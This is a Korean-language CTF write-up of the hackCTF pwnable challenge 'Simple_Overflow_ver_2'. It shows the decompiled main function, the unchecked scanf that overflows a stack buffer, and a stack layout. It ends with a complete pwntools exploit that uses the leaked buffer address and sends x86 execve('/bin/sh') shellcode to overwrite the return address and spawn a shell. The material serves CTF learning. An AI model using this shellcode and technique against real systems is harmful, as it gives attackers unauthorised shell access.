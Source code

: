 ```yaml
---
layout: post
title:  "[hackCTF]Simple_Overflow_ver_2"
date:   2020-02-18
---
```


hackCTF pwnable 7번째 문제

![favicon](https://drive.google.com/uc?id=1EPkDaLZatWWYaPyJ3wVlOrAu-eubvG9c)

## ida - main
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  size_t v3; // ebx
  char v5; // [esp+13h] [ebp-89h]
  char s[128]; // [esp+14h] [ebp-88h]
  int i; // [esp+94h] [ebp-8h]

  setvbuf(stdout, 0, 2, 0);
  v5 = 121;
  do
  {
    printf("Data : ");
    if ( __isoc99_scanf(" %[^\n]s", s) ) // \n을 받을 때까지 공백을 입력 받아 s에 저장
    {
      for ( i = 0; ; ++i )
      {
        v3 = i;
        if ( v3 >= strlen(s) )
          break; // s의 길이만큼 for문 반복
        if ( !(i & 0xF) ) // 0x0, 0x10이면
          printf("%p: ", &s[i]); // s[i]의 주소 출력
        printf(" %c", (unsigned __ int8)s[i]); // s[i]의 값 출력
        if ( i % 16 == 15 ) // 16의 배수번째 글자면
          putchar(10); // new line
      }
    }
    printf("\nAgain (y/n): ");
  }
  while ( __isoc99_scanf(" %c", &v5) && (v5 == 121 || v5 == 89) );
  // 문자열을 입력 받는데 그 값이 "Y" 또는 "y"이면 do-while문을 다시 반복한다
  return 0;
}
```
복잡해보이지만 실은 간단하다.  
문자열을 입력받고 그 문자열 16글자 단위로 나눠서 출력한다.  
이 때 1st, 17th 문자, 33th... 문자는 주소를 출력한다.
<br>

정리해보자.<br><br>

***

| ret |           |
|:---:|:---------:|
| sfp |    ebp    |
| ... |           |
|  i  |  ebp-0x8  |
|  s  |           |
| ... | (128byte) |
|  s  |  ebp-0x88 |
|  v5 |  ebp-0x89 |

***
<br>

![0701](https://drive.google.com/uc?id=13ENd7UhZJ3NSxpOyoGthlYVWHkv1xJ1t)  
실제로 실행해보면 좀 더 명확히 알 수 있다.<br><br>
지난 6번 문제와 동일하게 s의 주소를 알아낸 뒤 쉘코드를 포함한 payload를 완성하면 될 것 같다. 주의해야 할 점은 서버와 나 사이에 데이터 핑퐁이 잘 되어야 한다는 점이다. 이를 위해서 recvuntil함수를 자주 사용하기로 했다.<br><br>
목표 : 계속 변하는 s의 주소로 ret을 덮는 payload 완성하기<br>
취약점 : scanf(" %[^\n]s", s)<br><br><br>

## exploit.py
```python
#!/usr/bin/python
from pwn import *

p = remote('ctf.j0n9hyun.xyz', 3006)

# 1st

p.recvuntil("Data : ")

p.sendline("asdf")

buf = int(p.recv(10), 16)

p.recvuntil("Again (y/n): ")

p.sendline("y")

# 2nd

p.recvuntil("Data : ")

payload = "\x90"*0x7

payload += "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"

payload += "\x90"*(0x88-0x20+0x4)

payload += p32(buf)

p.sendline(payload)

p.recvuntil("Again (y/n): ")

p.sendline("n")

p.interactive()

```
## 결과
![0702](https://drive.google.com/uc?id=13ENd7UhZJ3NSxpOyoGthlYVWHkv1xJ1t)
